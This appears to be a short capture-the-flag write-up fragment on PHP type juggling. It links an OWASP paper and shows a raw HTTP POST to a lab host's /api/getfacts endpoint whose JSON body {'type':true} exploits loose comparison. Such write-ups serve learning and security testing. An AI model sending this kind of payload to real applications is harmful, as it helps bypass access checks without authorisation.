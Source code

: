 [type jugling php](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

```http
POST /api/getfacts HTTP/1.1
Host: 134.122.106.203:31893
Content-Length: 13
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://134.122.106.203:31893
Referer: http://134.122.106.203:31893/
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"type":true}
```